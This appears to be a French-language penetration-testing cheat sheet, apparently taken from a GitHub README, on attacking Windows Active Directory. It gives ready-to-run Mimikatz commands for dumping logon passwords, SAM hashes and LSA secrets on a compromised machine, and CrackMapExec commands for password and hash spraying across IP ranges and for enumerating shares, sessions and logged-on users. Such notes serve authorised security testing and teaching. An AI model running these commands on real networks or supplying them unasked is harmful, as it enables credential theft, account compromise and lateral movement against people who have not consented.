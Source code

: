 
 **Aperçu de Mimikatz**
 - [Mimikatz](https://github.com/gentilkiwi/mimikatz) est un outil utilisé pour afficher et voler des informations d'identification, générer des tickets Kerberos et exploiter des attaques.
 - Vide les informations d'identification stockées en mémoire.
 - Juste quelques attaques : Credential Dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Golden Ticket, Silver Ticket
 - Les différents modules utilisés par mimikatz sont expliqués sur son [wiki](https://github.com/gentilkiwi/mimikatz/wiki)

 **Dumping d'informations d'identification avec Mimikatz (creds dumping)**
 - Téléchargez le fichier binaire sur la machine compromise.
 - Ouvrez un CMD, accédez au dossier téléchargé et exécutez le fichier exe.  ./mimikatz.exe
 - Exécutez le mode débogage : `privilege::debug` .  Le débogage signifie qu'il nous permet de déboguer un processus auquel nous n'aurions pas accès autrement.  Exemple : vider les informations de la mémoire.
 - Videz le passwd de connexion.
	 - `sekurlsa ::logonpassword`
 - Vider les hachages SAM
	 - `lsadump::sam`
 - Vider le LSA
	 - `lsadump::lsa /patch`
	
 **Introduction à CrackMapExec de l'Armée Suisse**
 - Un outil de post-exploitation qui permet d'automatiser l'évaluation de la sécurité des grands réseaux Active Directory
 - Protocoles disponibles : ldap, mssql, smb, ssh, winrm <br> <br>

 ** Vérification de la politique de passwd CrackMapExec **
 - Avant d'effectuer une attaque par force brute en utilisant crackmapexec, il est toujours utile d'analyser sa politique de passwd, afin de ne pas déconnecter les utilisateurs de leur ordinateur.  Cela aide également à [générer un passwd](https://github.com/nirajkharel/PasswordCracking/blob/main/README.md).
 - `crackmapexec smb IP --pass-pol -u '' -p ''`


 **Pulvérisation de passwd SwissArmy CrackMapExec (CrackMapExec Password Spraying)**
 - Pulvériser les informations d'identification sur la plage IP
   - `crackmapexec smb <ip start>-<ip end> -u ippsec -p passwd1234 --no-bruteforce`
   - Il montrera également si nous avons un accès administrateur, s'il a un accès administrateur, il affichera un message (Pwn3d !).
 - Pulvérisez différents utilisateurs et combinaisons de mots de passe
   - `crackmapexec smb <ip start>-<ip end> -u username.txt -p passwd.txt --no-bruteforce`
 - Pulvériser les hachages sur la plage IP
   - `crackmapexec smb <ip start>-<ip end> -H hashes.txt --no-bruteforce`
 - Par défaut, CrackMapExec se ferme après une connexion réussie.  L'utilisation de l'indicateur `--continue-on-success` continuera à pulvériser même après qu'un passwd valide soit trouvé.  <br><br>

 **Armée Suisse CrackMapExec ENUM 1**
 - Utilisez les modules smb pour faire une énumération des partages
   - `crackmapexec smb <ip start>-<ip end> -u ippsec -p passwd1234 --shares`
   - Il fournira le nom du partage, les autorisations et les remarques
   - Nous pouvons suivre le résultat obtenu en utilisant SMBCLIENT pour accéder aux partages par la suite.
 - Séances
   - Jetez un œil à une session et voyez s'il y a des sessions en cours auxquelles nous avons accès.
   - `crackmapexec smb <ip start>-<ip end> -u ippsec -p passwd1234 --sessions`
 - Énumérer les disques
   - `crackmapexec smb <ip start>-<ip end> -u ippsec -p passwd1234 --disks`
 - Utilisateurs connectés
   - Voir si nous avons des utilisateurs connectés au réseau
   - `crackmapexec smb <ip start>-<ip end> -u ippsec -p passwd1234 --loggedon-users`
   - Si nous sommes un administrateur local, mais que nous ne sommes peut-être pas un administrateur de domaine, si les utilisateurs connectés sont des administrateurs de domaine, nous pourrons vider les hachages et effectuer une attaque Pass The Hash et obtenir une session.
 - Obtenez tous les utilisateurs
   - `crackmapexec smb <ip start>-<ip end> -u ippsec -p Password12345 --users` <br><br>